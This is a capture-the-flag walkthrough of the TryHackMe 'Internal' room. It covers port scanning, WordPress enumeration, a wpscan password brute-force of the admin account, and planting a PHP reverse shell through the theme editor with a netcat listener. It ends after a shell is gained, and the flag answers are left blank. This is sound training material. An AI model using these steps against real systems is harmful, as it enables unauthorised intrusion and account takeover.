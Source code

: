 
# Internal CTF Walkthrough

Internal is a vulnerable server on TryHackMe.com<br />
<br />
<i>URL: https://tryhackme.com/room/Internal<br />
THM Difficulty: Hard<br />
My Difficulty: TBA<br />
Target IP: 10.10.44.166<br />
AttackBox IP: 10.10.153.77<br />
</i>

# Enumeration

Before anything we'll need to add internal.thm to our hosts file as stated in the briefing. Let's do that now. <br />
```shell
pluma /etc/hosts
```
Now let's add the box, and save the file. I'll show a screenshot of my settings below.<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Internal/screenshots/SCREENSHOT1.png?raw=true)<br />

Now that's out of the way, let's get started. We will use rustscan, rustscan will scan all of the ports in around 3 seconds.<br />
```shell
rustscan -a 10.10.44.166
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Internal/screenshots/SCREENSHOT2.png?raw=true)<br />
Now we know which ports are open, I run an Nmap scan with the flags -sV to find the service versions on the open ports and -sC to run the default Nmap scripts against the target.<br />
```shell
nmap -sV -sC -p22,80 10.10.44.166
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Internal/screenshots/SCREENSHOT3.png?raw=true)<br />
Only two services, SSH and HTTP.


## HTTP Service Enumeration

Let's head over to the website and see what we can do there. <br />
```shell
http://10.10.44.166/
```
Hmm... The default Apache2 page. Let's see if we can find any other directories.

### Looking for directories with Gobuster

Let's open up Gobuster and start looking for other directories. <br />
```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.44.166/
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Internal/screenshots/SCREENSHOT4.png?raw=true)<br />
Okay we found a few more directories, let's have a look and see what we have.

## Using WPScan

After navigating to the directory ```/blog``` I can see that it's a wordpress site, let's use WPscan to find out more information.
```shell
wpscan --url http://10.10.44.166/blog -e u
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Internal/screenshots/SCREENSHOT5.png?raw=true)<br />
Okay this scan revealed a lot, I checked the readme page it found and I now have the wordpress login page. I also found out the username is admin... Maybe I could bruteforce the account?<br />

### Bruteforcing with WPScan

Let's try bruteforcing the login with WPscan, we know the username is ```admin```.<br />
```shell
wpscan --url http://10.10.44.166/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```
After a little time we found the correct password! Let's login and see what we can do. <br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Internal/screenshots/SCREENSHOT6.png?raw=true)<br />


### Looking around the admin dashboard

After looking around for a while and looking for ways to upload shells, I switched the theme to "Twenty Nineteen" and found this post:<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Internal/screenshots/SCREENSHOT10.png?raw=true)<br />
Let's keep this to the side for now, I tried the credentials on the phpmyadmin page that was found earlier and SSH but no luck.<br />
<br />

After changing to the last theme "Twenty Twenty" I couldn't find any more information, so I decided to try uploading a shell. AttackBoxes on THM come with shells already installed. Let's edit and upload one. <br />
```shell
mv /usr/share/webshells/php/php-reverse-shell.php shell.php
```
This will copy the shell from it's original directory and paste it with the name shell.php in your home directory. ```/root``` if you're using AttackBox.<br />
```shell
pluma shell.php
```
All we need to do is change the ```$ip``` and ```$port``` as I've done below<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Internal/screenshots/SCREENSHOT7.png?raw=true)<br />
Now let's get it uploaded! I doubt we will be able to upload this shell so we're going to edit a theme page with the .php files contents. On the left side of the screen there will be a paintbrush icon we'll go to that and then Theme Editor.<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Internal/screenshots/SCREENSHOT8.png?raw=true)<br />
Now on the right side of the page select the ```index.php```. Open up shell.php and copy all of its contents, head back to your web browser and replace all of the content with your shells code then click the blue Update File button.<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Internal/screenshots/SCREENSHOT11.png?raw=true)<br />
Before opening the page and executing our shell, let's start our listener on AttackBox with netcat.<br />
```shell
nc -lvnp 8888
```
We're now ready to execute our PHP reverse shell. <br />
```shell
http://10.10.44.166/blog/
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Internal/screenshots/SCREENSHOT12.png?raw=true)<br />
Success! Let's make our shell more stable by using Python.
```python
python -c 'import pty;pty.spawn("/bin/bash")'
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Internal/screenshots/SCREENSHOT13.png?raw=true)<br />
Great, let's have a look around the system for the user flag. <br />


## Questions & Answers

Question 1:<br />
**What is the user flag?** <br />

Question 2:<br />
**What is the root flag?** <br />

### Farewell, I hope you all enjoyed this write-up!

